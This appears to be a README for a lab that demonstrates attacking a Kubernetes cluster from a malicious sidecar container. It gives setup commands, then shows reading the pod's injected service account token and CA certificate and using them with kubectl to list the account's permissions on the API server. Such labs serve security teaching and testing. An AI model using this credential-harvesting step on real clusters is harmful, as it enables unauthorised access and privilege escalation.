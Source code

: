# Attacking cluster from malicious sidecar

## Setup

- Build the sidecar

```bash
docker build . -t malicious-sidecar
```

- Setup the cluser

```bash
kubectl apply -f cluster/
```

- Check pods are healthy with

```bash
kubectl get pods
```

- Jump to sidecar terminal with

```bash
kubectl exec --stdin --tty <insert-pod-name> -c sidecar-container -- /bin/bash
```

Or simply

```bash
kubectl get pods -l app=simple-webapp -o name | rg "pod/" -r "" | head -n 1 | xargs -o -J % kubectl exec -it % -c sidecar-container -- /bin/bash
```

## Easy attack vectors

### Kubernetes injected runtime secrets

- Service account in `/run/secrets/kubernetes.io/serviceaccount` (token, namespace, cert)

Running `kubectl` with the service account

```bash
kubectl --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt --server=https://192.168.65.4:6443 auth can-i --list
```
